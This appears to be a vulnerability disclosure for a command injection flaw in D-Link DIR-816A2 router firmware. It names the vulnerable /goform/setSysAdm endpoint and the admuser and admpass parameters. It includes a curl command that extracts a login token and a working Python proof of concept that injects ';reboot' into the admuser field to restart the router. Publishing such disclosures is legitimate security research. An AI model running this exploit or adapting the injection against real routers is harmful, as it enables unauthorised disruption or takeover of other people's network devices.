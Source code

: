 # DIR-816A2_FWv1.10CNB05_R1B011D88210.img Command Injection

## Overview

- Manufacturer's address：http://www.dlink.com.cn/
- Firmware download address ： http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Affected version

Below is the latest firmware

![](img/1.png#center)

## Vulnerability details

Vulnerability occurs in /goform/setSysAdm.    The contents of the admuser and admpass parameters are executed as commands

![](img/2.png#center)

![](img/3.png#center)
## POC

Gets the token ID

```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Run poc

```python
import requests

tokenid = ''

url = 'http://192.168.0.1/goform/setSysAdm'

payload = ';reboot'

data = {
    'tokenid': tokenid,
    'admuser': payload
}

r = requests.post(url, data)
hunzi = r.text
print(hunzi)
```

The router will restart
